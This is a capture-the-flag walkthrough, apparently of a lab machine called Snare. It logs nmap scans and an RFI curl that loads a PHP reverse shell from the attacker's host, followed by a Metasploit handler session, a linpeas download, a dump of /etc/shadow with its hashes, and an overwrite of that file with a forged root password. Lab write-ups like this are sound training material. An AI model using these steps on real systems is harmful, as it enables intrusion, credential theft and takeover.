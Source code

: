 #### Started scanning services with db_nmap 
***
[msf](Jobs:0 Agents:1) >> db_nmap 10.150.150.18
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 23:22 EAT
[*] Nmap: Nmap scan report for 10.150.150.18
[*] Nmap: Host is up (0.40s latency).
[*] Nmap: Not shown: 998 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE
[*] Nmap: 22/tcp open  ssh
[*] Nmap: 80/tcp open  http
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 32.07 seconds


[msf](Jobs:0 Agents:1) >> db_nmap -sV -sC -p22,80 10.150.150.18
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 23:23 EAT
[*] Nmap: Nmap scan report for 10.150.150.18
[*] Nmap: Host is up (0.47s latency).
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   3072 2f:0e:73:d4:ae:73:14:7e:c5:1c:15:84:ef:45:a4:d1 (RSA)
[*] Nmap: |   256 39:0b:0b:c9:86:c9:8e:b5:2b:0c:39:c7:63:ec:e2:10 (ECDSA)
[*] Nmap: |_  256 f6:bf:c5:03:5b:df:e5:e1:f4:da:ac:1e:b2:07:88:2f (ED25519)
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
[*] Nmap: | http-title: Welcome to my homepage!
[*] Nmap: |_Requested resource was /index.php?page=home
[*] Nmap: |_http-server-header: Apache/2.4.41 (Ubuntu)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 22.21 seconds

***
#### So I visited the home page and got an idea to test for RFI,LFI and command injection
***
![](home.png)

***

#### To gain a foothold, I used RFI
***
┌─[elliot@parrot]─[~]
└──╼ $curl 'http://10.150.150.18/index.php?page=http://10.66.66.134:8000/exploit'

***

#### Where I modified a PHP reverseshell from pentest monkey with my lhost
#### Then started metasploit **multi/handler**

***
[msf](Jobs:0 Agents:1) >> search multi/handler

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence


Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence

[msf](Jobs:0 Agents:1) >> use 5
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set LHOST 10.66.66.134
LHOST => 10.66.66.134
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.66.66.134     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:1) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.66.66.134:4444 
[*] Command shell session 7 opened (10.66.66.134:4444 -> 10.150.150.18:45170) at 2024-09-01 23:35:56 +0300


Shell Banner:
Linux snare 5.4.0-53-generic #59-Ubuntu SMP Wed Oct 21 09:38:44 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:35:42 up 40 min,  2 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                17Dec20 946days  0.06s  0.04s -bash
root     pts/0    10.66.66.38      27Nov20 1373days  0.02s  0.02s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 --version
Python 3.8.5
$ python3 -c "import pty;pty.spawn('/bin/sh')"
$ bash
bash
www-data@snare:/$ ls
ls
bin    dev   lib    libx32	mnt   root  snap      sys  var
boot   etc   lib32  lost+found	opt   run   srv       tmp
cdrom  home  lib64  media	proc  sbin  swap.img  usr
www-data@snare:/$ cd /home	
cd /home
www-data@snare:/home$ ls
ls
snare
www-data@snare:/home$ cd snare
cd snare
www-data@snare:/home/snare$ ls
ls
FLAG1.txt

***

#### For privileged escalation, I used the linpeas.sh script
[[https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh]]
#### So I hosted the exploit using python http server
#### Then I downloaded the exploit on target machine and executed it.
#### Seems the **/etc/shadow** file is writable to everyuser
***
www-data@snare:/home/snare$ cd /tmp
cd /tmp
www-data@snare:/tmp$ wget http://10.66.66.134:8000/linpeas.sh
wget http://10.66.66.134:8000/linpeas.sh
--2024-09-01 17:39:35--  http://10.66.66.134:8000/linpeas.sh
Connecting to 10.66.66.134:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 823052 (804K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 803.76K  15.3KB/s    in 75s     

2024-09-01 17:40:51 (10.7 KB/s) - ‘linpeas.sh’ saved [823052/823052]



www-data@snare:/tmp$ ls -alh /etc/shadow
ls -alh /etc/shadow
-rwxrwxrwx 1 root shadow 1.2K Nov 20  2020 /etc/shadow
www-data@snare:/tmp$ cat /etc/shadow
cat /etc/shadow
root:$6$b8wkwLbICzuTqPiO$dFLYb8ZNEpfGLRnvODlyGfjtZQTV85FJCDCBGiZEU9b3laym9RJo144xkYEldB419O1Q3E5FARrKRRn/LrtZc0:18586:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18579:0:99999:7:::
systemd-coredump:!!:18579::::::
snare:$6$H64MOvr/bVP1M3TM$ITTpmiB7QNgv7EARjOcIMgeBvbCXlDOU5LqjA7q0ivXWhevk7HbatblgH7Yc1y8aUo0pnASOhJgjWRlGMsusu/:18586:0:99999:7:::
lxd:!:18579::::::

***
#### I had troubles stabilizing the shell to edit the *etc/shadow* directory. So I wrote a separate file on my machine and upload it
#### Therefore I created a fake root password and modified it to be the new password
***
┌─[elliot@parrot]─[~]
└──╼ $mkpasswd -m sha-512 elliothacks
$6$GDyAeq7lpWUI04RY$VOEmda0awSK5jM5Gl3kmWAb.pMtKu33uNuRsxO112gmOHzyTkFf53FDG5pF9rM3kwCFYN7WMEMX4W1l9/HbVd/


***
***
┌─[elliot@parrot]─[~]
└──╼ $python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.150.150.18 - - [01/Sep/2024 23:35:37] "GET /exploit.php HTTP/1.0" 200 -
10.150.150.18 - - [01/Sep/2024 23:39:35] "GET /linpeas.sh HTTP/1.1" 200 -
10.150.150.18 - - [02/Sep/2024 00:24:16] "GET /elly.txt HTTP/1.1" 200 -


***
#### Then on the target machine
 ***
www-data@snare:/tmp$ wget http://10.66.66.134:8000/elly.txt  
--2024-09-01 18:24:16--  http://10.66.66.134:8000/elly.txt
Connecting to 10.66.66.134:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1129 (1.1K) [text/plain]
Saving to: ‘elly.txt’

elly.txt            100%[===================>]   1.10K  --.-KB/s    in 0.02s   

2024-09-01 18:24:17 (45.0 KB/s) - ‘elly.txt’ saved [1129/1129]

www-data@snare:/tmp$ cat elly.txt>/etc/shadow
www-data@snare:/tmp$ su root
Password: elliothacks

root@snare:/tmp# cd /root
root@snare:~# ls
FLAG2.txt  snap

***

#### Finally *Snare* has been pawned
***
![](snare.png)

***